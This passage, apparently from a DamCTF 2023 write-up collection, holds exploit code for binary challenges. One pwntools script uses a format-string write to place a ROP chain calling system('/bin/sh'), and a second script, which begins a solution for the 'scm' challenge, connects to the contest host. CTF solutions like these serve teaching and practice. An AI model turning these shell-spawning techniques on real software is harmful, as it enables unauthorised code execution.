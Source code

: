 ```python
    
    offset = 10
    ret = libc.address + 0x00029cd6
    writes = {
        stack_rip + 8: ret,
        stack_rip + 16: pop_rdi_ret,
        stack_rip + 24: binsh,
        stack_rip + 32: libc.symbols['system'],
    }

    payload = fmtstr_payload(offset, writes, write_size='short')

    r.sendlineafter(b"Exit", b"5")
    r.sendlineafter(b"list", payload)
    r.sendlineafter(b"Exit", b"2")

    r.sendlineafter(b"Exit", b"4")
    r.sendline(b'a')
    r.interactive()

if __name__ == "__main__":
    main()
```
{{< /details>}}
### golden-banana
- https://rektedekte.github.io/CTF-writeups/DamCTF%202023/golden-banana/
### hacky-halls
### interrupting-muffin-kicker
- https://gitlab.com/osusec/damctf-2023-challenges/-/blob/main/binary/interrupting-muffin-kicker/README.md
### muffin-kicker
- https://hiumee.com/posts/DamCTF-Muffin-Kicker/
- https://gitlab.com/osusec/damctf-2023-challenges/-/blob/main/binary/muffin-kicker/README.md
### scm
{{< details title="captainGeech#8300" open=false >}}
```python
#!/usr/bin/env python

import os
import sys

from pwn import *

HOST = "chals.damctf.xyz"
PORT = 30200

BINARY_PATH = "../scm"
LIBC_PATH = "./libc.so.6"

elf = ELF(BINARY_PATH)
context.binary = elf
context.arch = elf.arch
rop = ROP(elf)

if os.path.exists(LIBC_PATH):
    log.debug("loading chal libc")
    libc = ELF(LIBC_PATH)
else:
    log.debug("loading system libc")
    libc = ELF("/usr/lib/libc.so.6")
```